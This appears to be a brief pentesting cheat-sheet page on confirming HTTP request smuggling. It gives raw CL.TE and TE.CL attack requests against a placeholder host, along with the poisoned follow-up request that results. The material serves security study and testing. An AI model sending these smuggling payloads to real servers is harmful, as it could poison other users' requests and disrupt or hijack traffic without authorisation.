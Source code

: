## <mark style="color:yellow;">Confirmation</mark>

### <mark style="color:yellow;">**CL.TE**</mark>

Normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Attack request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

`Content-Legth: 49` -> all chars until `Foo:x` (include `\r\n`)

`e` (hex) -> Lenght `q=smuggling&x=`

Then send normal request. This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The server will respond with status code 404, indicating that the attack successful.

### <mark style="color:yellow;">**TE.CL**</mark>

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n
\r\n
```